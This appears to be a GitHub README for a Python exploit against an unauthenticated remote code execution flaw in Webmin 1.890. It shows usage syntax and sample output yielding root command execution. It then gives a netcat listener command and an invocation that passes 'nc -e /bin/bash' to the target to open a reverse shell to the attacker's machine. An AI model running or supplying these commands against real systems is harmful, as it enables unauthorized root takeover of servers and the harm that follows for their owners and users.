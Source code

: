 # WebMin-1.890-Unauthenticated-RCE

Webmin 1.890 is vulnerable to RCE if “user password change” option to be enabled.<br>

#USAGE: python3 exploit.py [TARGET IP] [COMMAND]
<br>
#Example Output:<br>
<code>python3 exploit.py 1**.2*.*.*** id</code>

&lt;h1&gt;Error - Perl execution failed&lt;/h1&gt;<br>
&lt;p&gt;Your password has expired, and a new one must be chosen.<br>
<strong>uid=0(root) gid=0(root) groups=0(root)</strong><br>
&lt;/p&gt;

<code>nc -nvlp [port]</code> before running script start listener for connection in your machine<br>
<code>python3 exploit.py [RHOST] "nc -e /bin/bash [LHOST] [LPORT]" </code> run script
